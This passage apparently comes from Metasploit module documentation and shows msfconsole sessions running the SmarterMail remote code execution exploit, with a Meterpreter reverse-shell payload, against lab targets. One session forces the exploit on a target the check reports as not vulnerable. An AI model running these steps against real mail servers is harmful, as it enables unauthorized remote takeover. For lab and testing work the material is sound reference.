```
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### SmarterMail Build 6985 on Windows 10 Pro

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6985.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 100.0.6985.
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/smartermail_rce) > set ForceExploit true
ForceExploit => true
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6985.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 100.0.6985.
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/smartermail_rce) > 
```

### SmarterMail Build 6919 on Windows 10 Pro (Algernon from Proving Grounds Practice)

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.247.65
RHOSTS => 192.168.247.65
msf6 exploit(windows/http/smartermail_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/http/smartermail_rce) > check

[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6919.
[*] 192.168.247.65:9998 - The target appears to be vulnerable.
msf6 exploit(windows/http/smartermail_rce) > exploit

```